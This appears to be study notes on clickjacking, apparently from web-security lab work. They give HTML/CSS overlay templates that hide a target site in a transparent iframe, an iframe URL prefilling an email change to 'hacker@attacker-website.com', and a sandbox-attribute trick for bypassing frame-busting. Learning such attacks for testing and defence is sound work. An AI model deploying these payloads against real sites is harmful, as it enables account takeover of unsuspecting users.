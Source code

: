 # Clickjacking (UI redressing)
Appears when we create some additional content (invisible iframe) on existing website and force user to click it.  
We use decoy website on which content is displayed and invisible evil site inside of iframe which is placed over original content.  
Clickjacking attacks are using CSS to place target content over decoy website like this:
```
<head>
	<style>
		#target_website {
			position:relative;
			width:128px;
			height:128px;
			opacity:0.00001;
			z-index:2;
			}
		#decoy_website {
			position:absolute;
			width:300px;
			height:400px;
			z-index:1;
			}
	</style>
</head>
...
<body>
	<div id="decoy_website">
	...decoy web content here...
	</div>
	<iframe id="target_website" src="https://vulnerable-website.com">
	</iframe>
</body>
```
To generate HTML files automatically, we can use Clickbandit burp tool.  
Also we can pre-generate some field values (for example e-mail for update email function) in order to make victim send needed to us paylaod:
```
<style>
    iframe {
        position:relative;
        width:$width_value;
        height: $height_value;
        opacity: $opacity;
        z-index: 2;
    }
    div {
        position:absolute;
        top:$top_value;
        left:$side_value;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe src="YOUR-LAB-ID.web-security-academy.net/my-account?email=hacker@attacker-website.com"></iframe>
```
## Bypassing protections
Main way of protecting against clickjacking attacks is browser extensions or framework configurations, which make frames visible or control website to be always top-alligned. One of ways to bypass it is to use `sandbox` attribute with `allow-forms` or `allow-scripts` values.
```
<iframe id="victim_website" src="https://victim-website.com" sandbox="allow-forms"></iframe>
```